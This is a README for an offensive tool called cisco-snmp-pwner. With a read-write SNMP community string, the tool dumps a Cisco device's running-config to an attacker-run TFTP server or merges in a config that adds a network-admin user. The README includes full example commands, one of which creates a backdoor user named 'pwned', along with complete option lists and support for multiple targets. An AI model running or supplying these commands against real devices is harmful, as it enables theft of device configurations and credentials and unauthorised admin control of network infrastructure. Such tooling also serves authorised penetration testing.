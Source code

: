 # cisco-snmp-pwner

If you ever got access to a RW snmp access to a cisco device this tool got you covered.

It spins up a local TFTP server (you need to run it as root as it's a low port) and either dumps the `running-config` or adds a new user to it by merging the `running-config` with a custom one provided via the TFTP server.

The listen IP you need to specify needs to be accessible from the cisco device so IPs like 0.0.0.0 will not work.

## dump

This will dump the config as `dump_target_randomstring` to the current directory. The filename is printed upon executing the tool

```
sudo ./cisco-snmp-server dump --listen 10.0.0.1 --target cisco.local --version 2c --communitystring private
```

### Options

```
OPTIONS:
   --debug, -d                     enable debug output (default: false)
   --listen value, -l value        local ip to listen on, must be accessible by the cisco device
   --target value, -t value        target ip of the cisco device
   --targetfile value, --tf value  list of ip addresses instead of target
   --timeout value                 timeout for SNMP operations (default: 2s)
   --version value                 snmp version to use. Either 1, 2c or 3 (default: "2c")
   --communitystring value         snmp communitystring with RW permissions
   --v3username value              snmp v3 username
   --v3authpass value              snmp v3 authpass
   --v3privacypass value           snmp v3 privacypass
   --v3authproto value             snmp v3 authproto
   --v3privproto value             snmp v3 privproto
   --help, -h                      show help (default: false)
```

## add-user

This will add a new user with the `network-admin` role (can be overidden) to the device. Be sure to dump the device first and make sure the user does not exist, otherwise you will overwrite it and may cause some networking issues.

```
sudo ./cisco-snmp-server add-user --listen 10.0.0.1 --target cisco.local --version 2c --communitystring private --username pwned --password 'allYourCisc0AreBelongToUs$'
```

### Options

```
OPTIONS:
   --debug, -d                     enable debug output (default: false)
   --listen value, -l value        local ip to listen on, must be accessible by the cisco device
   --target value, -t value        target ip of the cisco device
   --targetfile value, --tf value  list of ip addresses instead of target
   --timeout value                 timeout for SNMP operations (default: 2s)
   --version value                 snmp version to use. Either 1, 2c or 3 (default: "2c")
   --communitystring value         snmp communitystring with RW permissions
   --v3username value              snmp v3 username
   --v3authpass value              snmp v3 authpass
   --v3privacypass value           snmp v3 privacypass
   --v3authproto value             snmp v3 authproto. Either SHA, SHA224, SHA256, SHA384, SHA512, MD5 or NoAuth
   --v3privproto value             snmp v3 privproto. Either NoPriv, DES, AES, AES192, AES256, AES192C or AES256C
   --username value                username of the user to add
   --password value                password of the user to add
   --role value                    role of the new user (default: "network-admin")
   --help, -h                      show help (default: false)
```
